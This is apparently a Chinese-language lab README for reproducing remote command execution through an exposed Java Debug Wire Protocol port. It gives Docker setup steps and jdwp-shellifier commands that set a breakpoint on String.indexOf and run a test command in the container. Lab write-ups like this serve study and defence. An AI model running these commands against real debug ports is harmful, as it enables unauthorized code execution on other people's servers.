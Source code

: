 # 利用JAVA调试协议JDWP实现反弹shell
## 说明
JDWP是Java Debug Wire Protocol 的缩写，它定义了调试器（debugger）和被调试的 Java 虚拟机（target vm）之间的通信协议。那么对于一个开启了调试端口的JAVA应用，我们就可能利用JDWP进行调试，最终执行命令。

参考链接：
- [利用JAVA调试协议JDWP实现反弹shell](https://blog.spoock.com/2019/04/20/jdwp-rce/)
- [Hacking the Java Debug Wire Protocol – or – "How I met your Java debugger"](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)
- [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8888`，页面出现`hello world`则表示搭建成功;

## 漏洞复现
运行`python2 jdwp-shellifier -t your-ip -p 9999`,出现JVM等相关信息说明存在漏洞;

![](img/1.png)

确认漏洞存在之后，还可以执行命令；
1. 在`String.indexof()`方法下断点执行命令，`python2 jdwp-shellifier.py -t your-ip -p 9999 --break-on 'java.lang.String.indexOf' --cmd "touch  /tmp/success"`
2. 此时需要访问`http://your-ip:8888`,触发应用程序中的`String.indexof()`调用,从而执行`touch  /tmp/success`
    ![](img/2.png)
3. 执行`docker-compose exec jdwp bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：
    ![](img/3.png)